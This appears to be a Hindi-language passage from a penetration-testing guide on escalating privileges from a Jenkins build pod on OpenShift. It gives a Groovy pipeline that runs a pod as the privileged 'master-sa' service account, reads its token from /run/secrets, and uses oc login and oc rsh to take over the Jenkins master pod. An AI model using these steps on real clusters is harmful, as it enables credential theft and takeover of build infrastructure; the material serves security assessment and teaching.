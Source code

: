 खुद से निम्नलिखित प्रश्नों को पूछें:

- कौन सी सेवा खाता उपयोग की जा रही है निर्माण पॉड डिप्लॉय करने के लिए?
- उसके पास कौन सी भूमिकाएँ और अनुमतियाँ हैं? क्या यह मेरे वर्तमान नेमस्पेस के सीक्रेट्स को पढ़ सकता है?
- क्या मैं अन्य निर्माण पॉड को और अधिक जांच सकता हूँ?
- एक संकटित sa से, क्या मैं मास्टर नोड/पॉड पर कमांड चला सकता हूँ?
- क्या मैं क्लस्टर को और अधिक जांच सकता हूँ ताकि कहीं और पिवट कर सकूँ?
- कौन सी SCC लागू है?

आप यहाँ [यहाँ](../openshift-basic-information.md) और [यहाँ](../../kubernetes-security/kubernetes-enumeration.md) किस oc/kubectl कमांड को जारी करना है उसे जान सकते हैं।

### संभावित प्राइवेस्क/पिवटिंग स्थितियाँ

चलिए मान लेते हैं कि आपके मूल्यांकन के दौरान पता चला कि सभी जेंकिंस निर्माण _worker-ns_ नामक नेमस्पेस के अंदर चलते हैं। आपने पाया कि एक डिफ़ॉल्ट सेवा खाता _default-sa_ निर्माण पॉड पर माउंट किया गया है, हालांकि इसके पास कुछ अनुमतियाँ केवल कुछ संसाधनों पर पढ़ने की पहुंच है लेकिन आपने पहचान लिया कि एक मौजूदा सेवा खाता _master-sa_ है।
चलिए मान लेते हैं कि आपके दौरान चल रहे निर्माण कंटेनर के अंदर oc कमांड स्थापित है।

नीचे दिए गए निर्माण स्क्रिप्ट के साथ आप _master-sa_ सेवा खाता पर नियंत्रण ले सकते ह। और आगे जांच सकते ह।
```groovy
pipeline {
stages {
stage('Process pipeline') {
agent {
kubernetes {
yaml """
spec:
serviceAccount: master-sa
containers:
- name: evil
image: random_image:1.0
imagePullPolicy: IfNotPresent
command:
- sleep
args:
- 1d
"""
}
}
stages {
stage('Say hello') {
steps {
sh 'token=$(cat /run/secrets/kubernetes.io/serviceaccount/token)'
sh 'oc --token=$token whoami'
}
}
}
}
}
}
```
आपके एक्सेस पर निर्भर करता है, आपको या तो बिल्ड स्क्रिप्ट से अपना हमला जारी रखने की आवश्यकता है या फिर आप सीधे इस SA के रूप में लॉगिन कर सकते हैं चल रहे क्लस्टर पर:
```bash
oc login --token=$token --server=https://apiserver.com:port
```
यदि इस सा के पास पर्याप्त अनुमति है (जैसे पॉड/एक्जेक्यूट), तो आप जेंकिन्स इंस्टेंस कंट्रोल कर सकते हैं जब मास्टर नोड पॉड के अंदर कमांड एक्जीक्यूट करते हैं, यदि यह समान नेमस्पेस के अंदर चल रहा है। आप इस पॉड को आसानी से पहचान सकते हैं इसके नाम द्वारा और इस तथ्य द्वारा कि यह जेंकिन्स डेटा स्टोर करने के लिए उपयोग किए जाने वाले पीवीसी (स्थायी वॉल्यूम क्लेम) को माउंट करना चाहिए।
```bash
oc rsh pod_name -c container_name
```